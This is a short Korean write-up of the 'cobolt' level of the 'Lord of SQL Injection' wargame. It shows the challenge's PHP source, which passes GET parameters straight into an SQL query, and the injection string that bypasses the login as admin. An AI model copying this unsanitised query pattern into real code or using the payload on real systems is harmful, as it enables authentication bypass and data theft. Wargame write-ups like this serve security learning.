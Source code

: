 ```yaml
---
layout: post
title: "[2] Lord Of Sqlinjection"
description: ""
categories : development
sub_categories : ""
date: 2015-12-08
tags: []
comments: true
share: true
---
```



9번 라인 조건에 $result['id'] 의 값이 admin으로 고정되어있다.

쿼리문('id='1' or '1=1' and id='admin'#' and pw=md5('')')준비하고 요청한다.
    
    <?php
      include "../config.php"; 
      login_chk();
      dbconnect();
      if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
      if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
      $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
      echo "query : {$query}"; 
      $result = @mysql_fetch_array(mysql_query($query)); 
      if($result['id'] == 'admin') solve("cobolt");
      elseif($result['id']) echo "Hello {$result['id']}You are not admin :("; 
      highlight_file(__FILE__); 
    ?>

  

![](/assets/images/posts/414/234CD1475666A52B378792.PNG)

  

